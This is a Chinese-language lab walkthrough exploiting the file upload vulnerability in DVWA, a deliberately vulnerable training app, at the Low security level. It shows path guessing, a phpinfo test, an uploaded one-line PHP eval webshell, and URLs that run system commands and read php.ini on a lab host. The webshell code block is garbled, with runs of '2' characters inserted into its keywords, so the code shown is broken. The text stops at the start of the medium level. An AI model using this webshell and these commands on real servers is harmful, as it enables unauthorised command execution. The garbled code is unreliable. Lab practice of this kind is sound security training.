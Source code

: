 ### 手工实战

进入攻击页面

1. 输入用户名"admin"， 密码“password"，成功登录
2. 进入DVWA Security，Security Level选择Low
3. 进入File Upload，是文件上传漏洞的主界面，是常见的上传图片的功能



正常操作

1. test.jpg，选择，上传成功，提示`../../hackable/uploads/test.jpg succesfully uploaded!`



思考

1. 猜测上传后的访问路径

   ```bash
   http://10.240.138.212/DVWA-1.9/vuInerabilities/upload/
   +
   ../../hackable/uploads/test.jpg
   =
   http://10.240.138.212/DVWA-1.9/vulnerabilities/upload/../../hackable/uploads/test.jpg
   http://10.240.138.212/DVWA-1.9/hackable/uploads/test.jpg
   ```

2. 通过`http://10.240.138.212/DVWA-1.9/hackable/uploads/test.jpg`尝试访问test.jpg，访问成功

3. 尝试上传phpinfo.php文件，文件内容如下，尝试执行，成功执行

   ```bash
   <?php phpinfo();?>
   ```



攻击

1. 尝试上传一句话webshell，上传成功，webshell内容如下：

   cmd.php

   ```bash
   <?p222222h2222222222p
   @e22222222222val($_G22222222222ET['cm2222222222d']);
   ?>
   ```

2. 尝试执行webshell，执行成功

   `http://10.240.138.212/DVWA-1.9/hackable/uploads/cmd.php?cmd=phpinfo();`
   `http://10.240.138.212/DVWA-1.9/hackable/uploads/cmd.php?cmd=system("dir");`
   `http://10.240.138.212/DVWA-1.9/hackable/uploads/cmd.php?cmd=system("type D:\\phpStudy\\WWW\\DVWA-1.9\\php.ini");`



medium等级

1. 上传php文件，不允许上传
